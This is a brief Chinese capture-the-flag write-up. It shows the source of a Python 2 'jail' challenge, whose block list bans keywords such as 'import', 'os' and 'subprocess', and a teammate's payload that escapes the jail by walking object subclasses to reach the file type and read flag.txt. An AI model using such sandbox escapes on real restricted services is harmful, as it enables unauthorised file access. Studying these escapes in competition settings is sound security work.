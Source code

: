 
# misc #

## 挣脱牢笼 ##

题目很质量，可惜是抄来的
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from sys import modules
modules.clear()
del modules

banned = [
    "import",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "input",
    "banned",
    "sys"
]

_raw_input = raw_input
_Exception = Exception
__builtins__.__dict__.clear()
__builtins__ = None

while 1:
    data = _raw_input('>>>')
    for ban in banned:
        if ban.lower() in data.lower():
            print "!!!"
            break
    else:
        d = {'k':None}
        try:
            exec 'k='+data[:50] in d
            print d['k']
        except _Exception,e:
            print 'Exception:',
            raise e
```

原题来自[http://codezen.fr/2012/10/25/hack-lu-ctf-python-jail-writeup/](http://codezen.fr/2012/10/25/hack-lu-ctf-python-jail-writeup/)

这是我队友的payload
```
__builtins__['ak']=(1).__class__.__base__
__builtins__['ak']=ak.__subclasses__()
__builtins__['ak']=ak[40]
ak('flag.txt','r').read() 
```


剩下的题目没什么意思，就不谈了...